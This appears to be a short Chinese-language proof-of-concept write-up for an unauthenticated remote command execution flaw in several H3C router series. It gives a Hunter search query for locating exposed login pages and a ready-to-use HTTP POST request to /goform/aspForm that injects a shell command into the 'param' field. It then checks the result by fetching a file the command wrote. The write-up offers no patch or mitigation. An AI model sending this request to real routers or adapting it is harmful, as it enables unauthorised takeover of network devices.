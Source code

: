 # H3C多系列路由器存在前台远程命令执行漏洞

# 一、漏洞简介
 H3C多系列路由器存在前台远程命令执行漏洞。

# 二、影响版本
+ H3C多系列路由器

# 三、资产测绘
+ hunter`app.name="H3C Router Management"`
+ 登录页面

![1693536029401-fe49c297-e04b-42c4-8935-a0a3181716cd.png](./img/z8D5fn4DzBurWTEr/1693536029401-fe49c297-e04b-42c4-8935-a0a3181716cd-011282.png)

# 四、漏洞复现
```java
POST /goform/aspForm HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Host: 

CMD=DelL2tpLNSList&GO=vpn_l2tp_session.asp&param=1; $(ls>/www/test);
```

![1708148458826-c9fecdad-19a8-4f2f-afb8-2edb86c89119.png](./img/z8D5fn4DzBurWTEr/1708148458826-c9fecdad-19a8-4f2f-afb8-2edb86c89119-875058.png)

```java
/test
```

![1708148479113-de8c50b3-1388-4543-b5ad-245ab43716a0.png](./img/z8D5fn4DzBurWTEr/1708148479113-de8c50b3-1388-4543-b5ad-245ab43716a0-505670.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tp0a94dpgkk64aqo>
